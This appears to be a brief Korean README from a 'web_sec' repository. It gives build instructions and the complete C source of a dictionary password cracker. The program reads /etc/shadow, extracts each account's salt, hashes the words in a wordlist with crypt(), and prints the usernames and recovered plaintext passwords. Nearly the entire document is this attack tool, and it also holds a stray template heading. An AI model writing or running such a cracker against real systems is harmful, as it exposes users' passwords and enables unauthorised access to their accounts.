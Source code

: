 # web_sec

crypt file (hack.c) 을 실행파일로 만들기 위해서 gcc 명령어를 사용한다. ( yum -y install gcc )

**gcc -o hack hack.c -lcrypt** 

This is an H1
=============
// linux 계정 Password Cracking Code

#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include<crypt.h>

int main(int argc, char * argv[ ]){

        FILE * victim = fopen("/etc/shadow","r");
        FILE * attack = fopen("/hack/dic","r");

        char read_shadow[1024];
        char * id;
        char * hash;
        char hash2[1024];
        char * salt;
        char salt_value[30];
        char read_dic[100];


        char * victim_hash;


        while(fgets(read_shadow, 1024, victim)){
                id = strtok(read_shadow, ":");

                hash = strtok(NULL, ":");
                strcpy(hash2, hash);

                if(hash[0] != '$') continue;

                salt = strtok(hash2, "$");
                salt = strtok(NULL, "$");

                strcat(salt_value, "$6$");
                strcat(salt_value, salt);
                strcat(salt_value, "$");

                fseek(attack, 0, SEEK_SET);

                while(fgets(read_dic, 100, attack)!=NULL){
                        read_dic[strlen(read_dic)-1]='\0';
                        victim_hash = crypt(read_dic, salt_value);
                        if(!strcmp(hash, victim_hash)){
                                printf("ID : %s, PW : %s\n", id, read_dic);
                                break;
                        }
                }
                memset(salt_value, 0, 30);
        }
}
